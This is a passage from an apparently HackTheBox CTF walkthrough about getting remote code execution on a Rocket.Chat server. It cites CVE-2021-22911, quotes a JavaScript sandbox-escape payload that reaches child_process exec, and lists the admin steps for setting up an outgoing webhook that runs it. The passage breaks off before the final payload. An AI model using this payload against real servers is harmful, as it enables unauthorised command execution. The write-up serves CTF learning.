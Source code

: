 Searching for "rocket.chat reverse shell" finds a [writeup for a machine from HackTheBox Business CTF 2021](https://twseptian.github.io/hackthebox/hackthebox%20business%20ctf%202021/ctf/htbbiz2021-rocket/) which mentions [CVE-2021-22911](https://github.com/CsEnox/CVE-2021-22911), which is an unauthenticated exploit to change a user's password in version `3.12.1` (version `2.4.14` is on the box). The [CVE writeup on GitHub](https://github.com/CsEnox/CVE-2021-22911) mentions that "Rocket.Chat has a feature called Integrations that allows creating incoming and outgoing web hooks. These web hooks can have scripts associated with them that are executed when the web hook is triggered." The example authenticated RCE payload is as follows:

```js
const require = console.log.constructor('return process.mainModule.require')();
const { exec } = require('child_process');
exec('command here');
```

Clicking the three dots in the top left, then clicking "Administration", and finaly clicking "Integrations" brings us to this screen:

![](screenshots/20220726171611.png)

Click "New Integration" in the top right. Create an "Outgoing WebHook" with a "Event Trigger" of "Message Sent". Toggle "Enabled" to `True` and put `#general` for the channel. Next, in the URLs textbox, enter any URL like `google.com`. Then, set `Script Enabled` and paste in the below payload:
